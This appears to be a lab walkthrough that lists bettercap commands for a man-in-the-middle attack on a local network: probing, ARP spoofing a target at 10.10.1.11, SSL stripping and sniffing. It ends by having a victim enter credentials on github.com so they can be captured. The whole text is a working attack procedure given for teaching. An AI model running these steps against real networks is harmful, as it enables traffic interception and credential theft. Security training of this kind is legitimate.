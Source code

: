 - View bettercap options:
   ```bash
   bettercap -h
   ```

- Set the network interface (replace eth0 with your interface):
   ```bash
   bettercap -iface eth0
   ```

- View available modules:
   ```bash
   help
   ```

- Start network probes:
   ```bash
   net.probe on
   ```

- Enable network reconnaissance:
    ```bash
    net.recon on
    ```

- Enable SSL stripping:
    ```bash
    set http.proxy.sslstrip true
    ```

- Start ARP spoofing:
    ```bash
    set arp.spoof.internal true
    ```

- Spoof the target IP address:
    ```bash
    set arp.spoof.targets 10.10.1.11
    ```

- Initiate HTTP proxy:
    ```bash
    http.proxy on
    ```

- Start ARP spoofing:
    ```bash
    arp.spoof on
    ```

- Enable network sniffing:
    ```bash
    net.sniff on
    ```

- Observe network activity.

- On the Victim machine, open a web browser and visit github.com. and enter credentials on the website.
